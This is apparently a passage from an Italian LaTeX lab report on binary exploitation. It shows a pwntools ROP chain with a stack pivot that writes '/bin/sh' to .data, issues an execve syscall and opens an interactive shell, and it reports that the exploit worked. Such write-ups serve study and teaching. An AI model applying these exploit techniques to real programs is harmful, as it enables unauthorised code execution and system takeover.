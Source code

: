 \begin{lstlisting}[language=Python, label=rop1, caption={Seconda \textbf{ROP chain} da inserire nel buffer per esecuzione della \textit{shell}.}, style =Python]
rop2 = ROP(elf)                           # creazione oggetto rop2
rop2.raw(p64(0))                          # r13 = 0x00  continuo del comando pop_rsp  
rop2.raw(p64(0))                          # r14 = 0x00  continuo del comando pop_rsp
rop2.raw(p64(0))                          # r15 = 0x00  continuo del comando pop_rsp 
rop2.raw(pop_r12_r13)                     # pop r12; pop r13; pop r14; pop r15; ret;
rop2.raw("/bin/sh\x00")                   # r12 = "/bin/sh\x00"
rop2.raw(where_to_write)                  # r13 = .data idx
rop2.raw(p64(0x00))                       # r14 = 0x00
rop2.raw(p64(0x00))                       # r15 = 0x00
rop2.raw(mov_mmr13_r12)                   # mov [r13], r12; ret;
rop2.raw(pop_r13)                         # pop r13; pop r14; pop r15; ret;
rop2.raw(p64(0x3b))                       # r13 = 0x03b
rop2.raw(p64(0x00))                       # r14 = 0x00
rop2.raw(p64(0x00))                       # r15 = 0x00
rop2.raw(mov_rax_r13)                     # mov rax = r13
rop2.raw(pop_rdi)                         # pop rdi; ret;
rop2.raw(where_to_write)                  # rdi = .data idx -> "/bin/sh\x00"
rop2.raw(pop_rsi)                         # pop rsi; pop r15; ret;
rop2.raw(p64(0x00))                       # rsi = 0x0000000000000000
rop2.raw(p64(0x00))                       # r15 = 0x0000000000000000
rop2.raw(syscall)                         # syscall
\end{lstlisting}
Una volta create le due sequenze, vennero entrambe inviate al programma tramite la seconda \textbf{read}():
\begin{lstlisting}[language=Python, label=rop1, caption={Seconda \textbf{ROP chain} da inserire nel buffer per esecuzione della \textit{shell}.}, style =Python]
payload = dict()                          # creazione dizionario
payload[0] = rop2             
payload[offset] = rop1        
p.sendline(fit(payload))                  # invio payload al processo
p.interactive()                           # interazione da terminale con processo
\end{lstlisting}
Il risultato ottenuto fu quello atteso, ossia il corretto dirottamento dello stack e l'esecuzione della \textit{shell}, come da obbiettivo.
\begin{figure}[htbp]
      \centering
      \includegraphics[width=.75\textwidth]{images/stack-pivot.png}
      \caption{Dirottamento dello stack dai test. Contornato in rosso il contenuto di \textbf{rsp} durante la normale esecuzione, in verde dopo il dirottamento.}\label{fig:stack-pivot}
\end{figure}

